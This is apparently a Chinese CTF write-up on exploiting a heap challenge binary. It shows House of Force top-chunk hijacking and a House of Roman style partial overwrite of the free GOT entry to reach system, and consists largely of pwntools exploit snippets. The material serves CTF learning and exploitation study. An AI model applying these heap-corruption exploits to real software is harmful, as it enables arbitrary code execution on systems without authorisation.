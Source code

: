 看一看top chunk attack，几个要点这道题貌似都包含。

1. 存在漏洞能控制top_chunk的size大小
2. 能自由控制分配堆的大小
3. 分配的次数不受限制

***Demo***

HOUSE OF FORCE劫持TOP CHUNK读写任意地址

```python
malloc(0x20,"A"*0x20)

edit(0,0x50,"D"*0x20+p64(0)+p64(0xffffffffffffffff))
#check x/100xg 0x2020a0+0x0000555555554000,store the chunk list
malloc(-4256,"A"*0x100) #0x10a0
malloc(0x20,"B"*0x18)
#now check x/100xg 0x2020a0+0x0000555555554000
```

因为heap和got表是在同一块内存页里，发现可以无视PIE。。。感觉可以直接覆写got表。不过因为PIE开着，没啥东西可以覆盖给got表。。。（plt地址也会变，低地址覆盖也因为\x00而不存在）

考虑一下IO_FILE泄漏地址吧

![m45N6h](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/m45N6h.png)

或者尝试申请一个0x200000大小的超大堆，glibc会使用mmap来分配内存，该内存于libc在同一个内存页。

![EWcD7A](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/EWcD7A.png)



发现我审题真的很烂，题目明摆着就是告诉我们***house of roman***，也就是别想泄漏地址了，直接用低地址覆盖。

***实现got表的低地址覆盖(只要malloc的size和输入的data数量相同，结尾就不会有\x00)***

```python
malloc(0x20,"A"*0x20)

edit(0,0x50,"D"*0x20+p64(0)+p64(0xffffffffffffffff))
#check x/100xg 0x2020a0+0x0000555555554000,store the chunk list
malloc(-4408,"A"*0x10) #0x10a0
malloc(0x9,"B"*0x9) #free_got low byte
```

覆盖free got低地址，修改free got为system地址.不过开了ASLR（&PIE）之后就段错误了。应该是因为页之间的偏移也变了。

```python
malloc(0x20,"T"*0x10)
free(0)
malloc(0x20,"A"*0x20)

edit(0,0x50,"D"*0x20+p64(0)+p64(0xffffffffffffffff))
#check x/100xg 0x2020a0+0x0000555555554000,store the chunk list
raw_input()
malloc(-4408,"A"*0x10) #0x10a0
malloc(0xb,"B"*0x8+"\x90\x23\xa5") #free_got low byte

p.recvuntil("Your choice:")
p.sendline(str(4))
```
